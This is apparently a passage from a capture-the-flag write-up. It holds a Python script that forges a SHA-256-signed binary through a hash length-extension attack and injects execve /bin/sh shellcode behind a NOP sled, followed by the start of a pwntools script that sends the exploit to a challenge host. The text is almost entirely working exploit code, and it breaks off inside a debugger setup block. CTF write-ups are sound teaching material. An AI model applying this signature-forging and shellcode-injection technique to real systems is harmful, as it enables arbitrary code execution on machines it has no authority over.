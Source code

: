 Script for hash extension and write data to the `signed_binary`:

```python
# https://github.com/stephenbradshaw/hlextend
import hlextend
key = b'?'*30

with open('./src/signed_binary', "rb") as f:
    data = bytearray(f.read())

# with open('./src/test.txt', "r") as f:
with open('./src/hashes.txt', "r") as f:
    hashs = f.read().strip().splitlines()   

write_idx = 19
write_offset = 0x1168
write_len = 3736

target_idx = 30
target_offset = 0x3038
target_len = 80
salt = f's{target_idx}{target_idx-3:02X}'
start_hash = hashs[target_idx].split(':')[-1]
unknown_len = len(key) + len(salt)

# https://packetstormsecurity.com/files/153038/Linux-x64-execve-bin-sh-Shellcode.html
shell = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
payload =  b'\x90' * 100
payload += shell
payload = payload.ljust(write_len - target_len - 9 - (-(unknown_len + target_len + 9) % 64), b'\x90')

sha = hlextend.new('sha256')
new_data = sha.extend(payload, data[target_offset:target_offset+target_len], unknown_len, start_hash)
new_hash = sha.hexdigest()

data[write_offset:write_offset+write_len] = new_data
hashs[write_idx] = salt[1:] + '\x00:' + new_hash
with open('./exploit/shell', "wb") as f:
    f.write(data)
with open('./exploit/sus.txt', "w") as f:
    f.write('\n'.join(hashs))
```

Script to send our exploit payload:

```python
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./src/verify')
# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'seedling-d22fuls4bf566.shellweplayaga.me'
port = int(args.PORT or 10001)
# Local debug
gdbscript="""
init-gef
tmux-setup
b * verify_binary+559
```